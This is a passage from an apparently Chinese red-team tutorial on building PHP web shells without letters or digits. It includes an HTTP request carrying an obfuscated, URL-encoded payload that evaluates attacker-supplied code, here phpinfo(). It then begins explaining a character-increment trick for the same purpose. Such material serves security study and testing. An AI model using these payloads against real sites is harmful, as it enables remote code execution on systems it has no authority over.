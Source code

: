 ```
POST /?shell=%24__%3D%28%27%3E%27%3E%27%3C%27%29%2B%28%27%3E%27%3E%27%3C%27%29%3B%24_%3D%24__%2F%24__%3B%24____%3D%27%27%3B%24___%3D%22%E7%9E%B0%22%3B%24____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E5%92%8C%22%3B%24____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E5%92%8C%22%3B%24____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E7%9A%84%22%3B%24____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E5%8D%8A%22%3B%24____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E5%A7%8B%22%3B%24____.%3D%7E%28%24___%7B%24__%7D%29%3B%24_____%3D%27_%27%3B%24___%3D%22%E4%BF%AF%22%3B%24_____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E7%9E%B0%22%3B%24_____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E6%AC%A1%22%3B%24_____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E7%AB%99%22%3B%24_____.%3D%7E%28%24___%7B%24_%7D%29%3B%24_%3D%24%24_____%3B%24____%28%24_%5B%24__%5D%29%3B

Content-Type: application/x-www-form-urlencoded

2=phpinfo();
```

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/无字母数字Webshell/4.png)

**思路3**

借助PHP的一个小技巧

PHP 支持 C 风格的前／后递增与递减运算符。
```
++$a	前加	$a 的值加一，然后返回 $a。
$a++	后加	返回 $a，然后将 $a 的值加一。
--$a	前减	$a 的值减一， 然后返回 $a。
$a--	后减	返回 $a，然后将 $a 的值减一。
```

也就是说，'a'++ => 'b'，'b'++ => 'c'... 所以，我们只要能拿到一个变量，其值为a，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？
